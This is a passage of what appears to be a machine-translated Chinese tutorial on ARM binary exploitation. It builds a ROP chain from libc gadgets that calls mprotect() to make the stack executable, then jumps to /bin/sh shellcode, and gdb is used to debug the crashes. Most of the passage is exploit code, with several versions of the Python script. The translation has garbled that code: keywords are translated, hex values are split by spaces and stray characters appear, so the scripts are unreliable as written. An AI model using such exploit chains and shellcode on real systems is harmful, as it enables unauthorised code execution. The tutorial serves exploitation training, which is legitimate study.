*如果攻击运行正确，mprotect 将被调用，结果，它将使堆栈可执行。调用 mprotect()后，执行将返回，所以让我们添加一个垃圾值(“BBBB”)来看看它是否工作*

*让我们在 gdb 内部运行它*

*程序在地址 0x00000000 处崩溃。嗯，这很奇怪，我们一会儿会研究这个问题。在此之前，让我们用 *vmmap* 命令检查堆栈*

**

*看看堆栈权限我们实现了可执行权限！！！！！*

*现在我们可以轻松地运行我们的 shell 代码并获得一个 shell。在此之前，让我们解决以下问题*

**

*电脑被零覆盖。那么这些零是从哪里来的？如果你看一下 r4 寄存器，它包含值 0x42424242 (BBBB)，这是我们放入漏洞的最后一个垃圾。*

*执行 mprotect()后，执行将分支到 **lr** 寄存器，因为它正在使用 **blx** 指令(分支链接和交换)。 **lr** 寄存器包含指令 pop {r4，r5，r6，pc}。*

*啊哈，所以这种流行是我们坠毁的原因。这个弹出操作从栈顶删除了四个元素，分别是 r4、r5、r6 和 pc。r4 之所以得到“BBBB”就是因为这个。所以为了控制 pc，我们需要再输入 2 个垃圾字符，然后输入下一条指令的地址*

*pop {
R4 = " BBBB "
r5 = " BBBB "
R6 = " BBBB "
PC =下一条指令
}*

*让我们修改漏洞*

> *#!/usr/bin/python*
> 
> *导入结构*
> 
> *base_libc = 0xb6e74000*
> 
> *exp = " A " * 24
> exp+= struct . pack("<I "，base_libc+0x0010a1b8) # pop {r1，PC }；
> exp += struct.pack(" < I "，0x 10101010)# size
> exp+= struct . pack("<I "，base _ libc+0x 000 D2 AC)# mov r0，# 7；pop {r4，PC }；)
> exp+=(" AAAA ")# junk
> exp+= struct . pack("<I "，base_libc + 0x00019270) # pop {r3，PC }；
> exp += struct.pack(" < I "，base _ libc+0x 0002 df 80)# pop { r7，pc}的地址；
> exp += struct.pack(" < I "，base_libc+0x000d9ef0) # mov r2，r0；mov r0，R6；blx r3
> exp+=(" AAAA ")# junk
> exp+= struct . pack("<I "，base_libc+0x0007a12c) #pop {r0，r4，PC }；
> exp += struct.pack(" < I "，0x bedfd 000–0x 80)#堆栈基址
> exp+=(" AAAA ")#垃圾
> exp += struct.pack(" < I "，base_libc+0x000fe910) #add r0，r0，# 0x80pop {r3，PC }；
> exp+=(" AAAA ")# junk
> exp+= struct . pack("<I "，0x b 6 f 41 e 90)# mprotect()address
> exp+= " BBBB " # junk
> exp+= " BBBB " # junk
> exp+= " BBBB " # junk
> exp+= " DDDD " # PC*
> 
> *打印(出口)*

*现在让我们再次使用 gdb 运行这个漏洞*

**

*普通*

*不错，pc 被“DDDD”覆盖。现在一切都差不多完成了，所以让我们添加外壳代码并获得一个外壳。*

# *最后的利用*

*让我们添加外壳代码。我将使用下面的外壳代码*

> *shell code = " \ x01 \ x30 \ x8f \ xe2 \ x13 \ xff \ x2f \ xe1 \ x02 \ xa0 \ x49 \ x40 \ x52 \ x40 \ xc2 \ x71 \ x0b \ x27 \ x01 \ xdf \ x2f \ x62 \ x69 \ x6e \ x2f \ x73 \ x68 \ x78 "*

*我还会添加一些 nop 幻灯片来防止我们的漏洞，同时让我们找一个合适的地方来放置外壳代码。为此，我将在漏洞中输入一些垃圾字符*

> *#!/usr/bin/python*
> 
> *shellcode = " \ x01 \ x30 \ x8f \ xe2 \ x13 \ xff \ x2f \ xe1 \ x02 \ xa0 \ x49 \ x40 \ x52 \ x40 \ xc2 \ x71 \ x0b \ x27 \ x01 \ xdf \ x2f \ x62 \ x69 \ x6e \ x2f \ x73 \ x68 \ x78 "
> nops = " \ xe1 \ xa0 \ X10 \ x01 " * 10*
> 
> *导入结构*
> 
> *base_libc = 0xb6e74000*
> 
> *exp = " A " * 24
> exp+= struct . pack("<I "，base_libc+0x0010a1b8) # pop {r1，PC }；
> exp += struct.pack(" < I "，0x 10101010)# size
> exp+= struct . pack("<I "，base _ libc+0x 000 D2 AC)# mov r0，# 7；pop {r4，PC }；)
> exp+=(“AAAA”)# junk
> exp+= struct . pack("<I "，base_libc + 0x00019270) # pop {r3，PC }；
> exp += struct.pack(" < I "，base _ libc+0x 0002 df 80)# pop { r7，pc}的地址；
> exp += struct.pack(" < I "，base_libc+0x000d9ef0) # mov r2，r0；mov r0，R6；blx r3
> exp+=(" AAAA ")# junk
> exp+= struct . pack("<I "，base_libc+0x0007a12c) #pop {r0，r4，PC }；
> exp += struct.pack(" < I "，0x bedfd 000–0x 80)#堆栈基址
> exp+=(" AAAA ")# junk
> exp+= struct . pack("<I "，base_libc+0x000fe910) #add r0，r0，# 0x80pop {r3，PC }；
> exp+=(" AAAA ")# junk
> exp+= struct . pack("<I "，0x b 6 f 41 e 90)# mprotect()address
> exp+= " BBBB " # junk
> exp+= " BBBB " # junk
> exp+= " BBBB " # junk
> exp+= " A " * 24
> exp+= nops
> exp+= shellcode
> exp+= " AAAA "*

*让我们使用 gdb 运行它，并检查堆栈以找到合适的位置。*

**

*地点 **0xbefff1f4** 似乎是一个合适的地方，因为它包含了我们的 nop 幻灯片。让我们把这作为我们利用的开始。所以我们可以在 mprotect()调用后将这个地址作为 pc 的下一个地址。这将把执行重定向到" **0xbefff1f4** "并执行外壳代码。让我最后一次修改我的漏洞。*

> *#!/usr/bin/python*
> 
> *shellcode = " \ x01 \ x30 \ x8f \ xe2 \ x13 \ xff \ x2f \ xe1 \ x02 \ xa0 \ x49 \ x40 \ x52 \ x40 \ xc2 \ x71 \ x0b \ x27 \ x01 \ xdf \ x2f \ x62 \ x69 \ x6e \ x2f \ x73 \ x68 \ x78 "
> nops = " \ xe1 \ xa0 \ X10 \ x01 " * 10*
> 
> *导入结构*
> 
> *base_libc = 0xb6e74000*
> 
> *exp = " A " * 24
> exp+= struct . pack("<I "，base_libc+0x0010a1b8) # pop {r1，PC }；
> exp += struct.pack(" < I "，0x 10101010)# size
> exp+= struct . pack("<I "，base _ libc+0x 000 D2 AC)# mov r0，# 7；pop {r4，PC }；)
> exp+=(" AAAA ")# junk
> exp+= struct . pack("<I "，base_libc + 0x00019270) # pop {r3，PC }；
> exp += struct.pack(" < I "，base _ libc+0x 0002 df 80)# pop { r7，pc}的地址；
> exp += struct.pack(" < I "，base_libc+0x000d9ef0) # mov r2，r0；mov r0，R6；blx r3
> exp+=(" AAAA ")# junk
> exp+= struct . pack("<I "，base_libc+0x0007a12c) #pop {r0，r4，PC }；
> exp += struct.pack(" < I "，0x bedfd 000–0x 80)#堆栈基址
> exp+=(" AAAA ")# junk
> exp+= struct . pack("<I "，base_libc+0x000fe910) #add r0，r0，# 0x80pop {r3，PC }；
> exp+=(" AAAA ")# junk
> exp+= struct . pack("<I "，0x b 6 f 41 e 90)# mprotect()address
> exp+= " BBBB " # junk
> exp+= " BBBB " # junk
> exp+= " BBBB " # junk
> exp+= struct . pack("<I "，0x befff 1 f 4)#漏洞利用开始
> exp += "A" * 24 【T45*
> 
> *打印(出口)*

*这是最终的漏洞脚本。让我们在 gdb 之外运行这个(禁用 aslr)*

**

*最后，我们得到了我们的壳！！！！！！！*

*好了，帖子到此结束。我希望您对调用 mprotect 有所了解。为了在这方面做得更好，您应该尝试找到您的小工具并实现您的想法来做一些事情，如调用 mprotect()或简单的 rop 链等。*

*调用 mprotect()的 rop 链的另一个示例*

> *#!/usr/bin/python*
> 
> *导入结构*
> 
> *base _ libc = 0xb6e 74000
> 
> shellcode = " \ x01 \ x30 \ x8f \ xe2 \ x13 \ xff \ x2f \ xe1 \ x02 \ xa0 \ x49 \ x40 \ x52 \ x40 \ xc2 \ x71 \ x0b \ x27 \ x01 \ xdf \ x2f \ x62 \ x69 \ x6e \ x2f \ x73 \ x68 \ x78 "
> nops = " \ xe1 \ xa0 \ X10 \ x01 " * 1*
> 
> *exp = " A " * 24
> exp+= struct . pack("<I "，base_libc+0x0010a1b8) # pop {r1，PC }；
> exp += struct.pack(" < I "，0x 10101010)
> exp+= struct . pack("<I "，base_libc+0x00019270) #pop {r3，PC }；r3= 0x0007a12c: pop {r0，r4，PC }；
> exp += struct.pack(" < I "，base _ libc+0x 0007 a12c)# R3
> exp+= struct . pack("<I "，base _ libc+0x 000 D2 AC)# mov r0，# 7；pop {r4，PC }；
> exp+= " AAAA "
> exp+= struct . pack("<I "，base_libc+0x000d9ef0) #mov r2，r0；mov r0，R6；blx r3
> exp += struct.pack(" < I "，0x bef def 80)# r0
> exp+= " BBBB "
> exp+= struct . pack("<I "，base_libc+0x000fe910) #add r0，r0，# 0x80pop {r3，PC }；
> exp+= " BBBB "
> exp+= struct . pack("<I "，base _ libc+0x 0003 b5 D8)# 0x 0003 b5 D8:pop { lr }；加 sp，sp，# 4；bx lr
> exp += struct.pack(" < I "，base_libc+0x00019270) #pop {r3，PC }
> exp+= " BBBBBBBB "
> exp+= struct . pack("<I "，0x b 6 f 41 e 90)# mprotect
> exp+= " BBBB "
> exp+= struct . pack("<I "，0x beff 1d 4)#外壳代码开始
> exp +=*
> 
> *打印(出口)*

*这不是干净的第一个，但仍然有效:P*

*把它想象成解决一个谜或一个难题，找到更多的小工具，把它们串联起来，做一些有意义的事情。慢慢来，多了解。*

***跟我联系***

*https://www.facebook.com/i.am.ultralegend*

*insta gram:[https://www.instagram.com/hagane_no_rekinjutsushi/](https://www.instagram.com/hagane_no_rekinjutsushi/)*

*如果你想支持我，试试我在 Udemy 上的“手臂开发和逆向工程课程”*

*[https://www . udemy . com/course/reverse-engineering-and-binary-exploitation-in-arm/？referral code = 8c 725d 513 e 77420 a 0 CBF](https://www.udemy.com/course/reverse-engineering-and-binary-exploitation-in-arm/?referralCode=8C725D513E77420A0CBF)*